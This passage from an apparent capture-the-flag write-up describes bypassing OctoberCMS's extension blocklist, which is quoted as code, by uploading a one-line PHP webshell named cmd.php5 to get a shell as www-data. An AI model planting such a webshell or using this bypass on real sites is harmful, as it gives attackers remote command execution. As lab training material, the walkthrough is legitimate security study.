 ## Shell as www-data

### Upload Filter Bypass

There are [write-ups on
exploit-db](https://www.exploit-db.com/exploits/41936) about how to
upload php code into OctoberCMS. Basically, it blacklists php uploads by
extension:



    106 <?php
    107 protected function blockedExtensions()
    108 {
    109         return [
    110                 // redacted
    111                 'php',
    112                 'php3',
    113                 'php4',
    114                 '.md',
    115                 // redacted
    116         ];
    117 }



But `php5` is a valid php extension, so I can upload a shell as that.

If I go to the media tab, I'll see the "Upload" button:

![](/img/1552133490763.png)

I'll upload a simple webshell, `<?php system($_REQUEST['cmd']); ?>` as
`cmd.php5`:
